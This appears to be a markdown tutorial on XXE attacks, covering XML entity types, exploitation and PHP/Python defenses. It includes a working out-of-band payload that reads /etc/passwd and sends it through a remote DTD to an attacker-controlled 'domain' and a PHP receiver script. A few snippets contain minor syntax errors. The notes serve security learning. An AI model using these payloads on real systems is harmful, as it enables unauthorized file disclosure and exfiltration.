 # XXE
*  [Entity](#entity)   
*  [Exploit](#exploit)   
*  [Defense](#defense)  
*  [Reference](#reference)   
   
XML is a markdown language just like html, but it focuses on transmitting data, and Case-sensitive。  
```xml
<?xml version=“1.0” encoding=“utf-8”>    // xml declaration
<!DOCTYPE a[                    // DTD doc type def
    <!ENTITY .....>
]>
<a>     // doc element
....
</a>
```
In the `XXE-SSRF` part are the practice of clear and blind-based 

## Entity
In DTD, we all need to declare before use entity  
Entity is just like a variable  
1. Internal entity： `<!ENTITY name "value">`  
```xml
<!DOCTYPE pwnch[
  <!ENTITY var "hi">
]>
<root>&var;</root>
```  

2. External entity： `<!ENTITY name SYSTEM "URL">`  
```xml
<!ENTITY var SYSTEM "url://.......txt">
<root>&var;</root>
```
version after 2.9.0 default not to parse the external entity  
Therefore, we can use the code `print "libxml version: ".LIBXML_DOTTED_VERSION."\n";` to make sure  

3. Parameter entity： `<!ENTITY %name "value>"`  
```xml
// exp.dtd: <!ENTITY next SYSTEM "file://.txt">
<!DOCTYPE pwnch[
  <!ENTITY %var SYSTEM "http://...../exp.dtd">
  %var;
]>
<root>&next;</root>
```
While importing external entity, we also can bring into the parameter in `exp.dtd`.  
> By the way, the first two lines of code `file:///` are protocol, and the last line mean root dir.

## Exploit
1. Vul to XXE?  
Input a xml to see whether it is parsed  
2. Support of External entity?
```
<!DOCTYPE ANY [
<!ENTITY % name SYSTEM "url">
%name;
]>
```  
  
3. Return -> Simple  
**php and XXE**  
```php
$xml = @new SimpleXMLElement($data);
echo $xml->node;
```
`SimpleXMLElement` would make content format like a list： `[node] => 'content'`  
The code at the last line `$xml->node` means take out the **node**  
Therefore, we need an exploit like `<node>&var;</node>`   

4. No Return -> OOB(Out-Of-Band) XXE  
Make server deliver the data to us  
```xml
// XML for server side
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://domain/xxe.dtd">
%remote;
%all;
%send;
]>
```
xxe.dtd  
```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://domain/test.php?a=%file;'>">
```
test.php  
```php
file_put_contents("test.txt",$_GET['a']);
```
The whole process of exploit：server parsed my xml input, and import dtd of my domain while parsing `remote`.  
On `xxe.dtd`, there are `all` and `send` parameter entities, while parsing `send` entity, it would request to my `test.php` with `/etc/passwd` from the first part.  
At the end, `test.php` would put content of `/etc/passwd` into the file of `test.txt`.  

## Defense
```php
// php 
libxml_disable_entity_loader(true);
// python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```  
[更詳細的內容可以參考這篇的漏洞修復與防禦](https://thief.one/2017/06/20/1/)

## Reference
* Kaibro's slides  
* [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
